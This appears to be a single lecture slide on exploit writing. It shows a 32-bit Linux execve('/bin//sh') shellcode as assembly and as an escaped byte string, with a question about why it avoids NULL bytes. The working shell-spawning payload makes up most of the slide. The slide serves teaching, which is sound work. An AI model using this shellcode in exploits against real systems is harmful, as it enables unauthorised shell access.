

# Shellcode example
xor ecx, ecx
mul ecx
push ecx
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
mov al, 0xb
int 0x80

Notice no NULL chars. Why?
"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f”
"\x73\x68\x68\x2f\x62\x69\x6e\x89”
"\xe3\xb0\x0b\xcd\x80”;
Executable String
Shellcode
Author: kernel_panik, http://www.shell-storm.org/shellcode/files/shellcode-752.php
32